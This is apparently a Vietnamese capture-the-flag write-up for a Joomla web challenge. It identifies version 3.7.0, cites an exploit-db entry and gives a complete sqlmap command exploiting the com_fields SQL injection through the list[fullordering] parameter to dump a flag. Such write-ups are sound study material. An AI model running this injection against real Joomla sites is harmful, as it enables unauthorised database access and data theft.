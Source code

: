 [WED](#web)

## Chôm la
WEB

# Solution:
tên chall này là chôm la và công nghệ web là Joomla

với dạng này thì đầu tiên mình sẽ tìm xem phiên bản Joomla hiện tại là bao nhiêu
![img](./images/13.png)

thì mình thấy phiên bản hiện tại là 3.7.0 là một phiên bản thấp

Google search: Joomla 3.7.0 exploit 
thì mình tìm thấy một CVE có thể khai thác được
> https://www.exploit-db.com/exploits/42033

![img](./images/14.png)

command: sqlmap -u "http://54.169.55.172:8000/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

và mình nhận được flag trong database.
flag ở trong table flag
![img](./images/15.png)

giải mã base64 là nhận được cờ

flag: PISCTF{PHP_J00mla_3_7_0_!_CVE}
